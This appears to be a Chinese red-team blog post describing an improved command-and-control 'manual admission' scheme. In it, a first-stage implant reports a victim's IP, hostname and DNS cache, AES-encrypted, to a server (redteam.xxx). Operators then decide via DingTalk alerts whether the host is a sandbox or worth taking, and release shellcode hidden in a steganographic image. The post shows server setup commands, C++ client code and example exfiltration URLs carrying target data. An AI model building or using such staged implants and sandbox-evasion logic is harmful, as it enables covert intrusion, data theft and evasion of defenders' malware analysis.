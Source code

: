 ```yaml
---
title: 通过人工准入实现c2上线(改进版)
date: 2023-09-20 11:51:24
description: 极客兔兔的小站，致力于分享一些技术教程和有趣的技术实践
---
```


2022-初版

把shellcode载荷放在平台生成的隐写图片中，前锋马回传机器基础信息用于判断是否是沙箱或调试机，确认是真实目标，人为准入，目标机解析隐写图片shellcode后上线到c2。  

![](https://c1y2m3.oss-cn-beijing.aliyuncs.com/cban.png)

2023-改进版：

前段时间又完善了下之前写的准入，发出来做个记录，接入到了钉钉通知，方便多人协同操作，通过信息判断是否是沙箱分析机，机器是否有价值，然后通过IM去决定加载后面的shellcode。

![](https://c1y2m3.oss-cn-beijing.aliyuncs.com/20230925193219.png)

server端是django写，clinet是c++。 环境安装：



```
pip3 install django==2.1.3
pip3 install chardet
pip3 install pycryptodome
```

访问流程： 1.客户端随机生成GUID动态请求server端获取key http://redteam.xxx/key?uuid=41303000200-0400-0500-0006-000700080009

```
    wchar_t guidbuffer[GUID_LEN] = { 0 };
    GUID guid;

    if (CoCreateGuid(&guid))
    {
       fprintf(stderr, "create guid error\n");
       return -1;
    }

    _snwprintf_s(guidbuffer, sizeof(guidbuffer),
       L"%08X-%04X-%04x-%02X%02X-%02X%02X%02X%02X%02X%02X",
       guid.Data1, guid.Data2, guid.Data3,
       guid.Data4[0], guid.Data4[1], guid.Data4[2],
       guid.Data4[3], guid.Data4[4], guid.Data4[5],
       guid.Data4[6], guid.Data4[7]);
```

2.获取客户端IP，主机名称以及本地dns缓存记录(这里回传数据可以根据实际情况进行定制，例如杀软安装软件等...) ，使用key对机器信息aes加密发送给server端  aes加解密参考 https://blog.csdn.net/witto_sdy/article/details/83375999 [http://redteam.xxx/add?uuid=41303000200-0400-0500-0006-000700080009&target=3d316499851da40d2c29a0cf2e6f645a&dns=e8f1c693514ccd053addeee84cfd350ad0f38374e86f6f799b814cc09dda09c7](http://redteam.xxx/add?uuid=41303000200-0400-0500-0006-000700080009&target=3d316499851da40d2c29a0cf2e6f645a&dns=e8f1c693514ccd053addeee84cfd350ad0f38374e86f6f799b814cc09dda09c7)
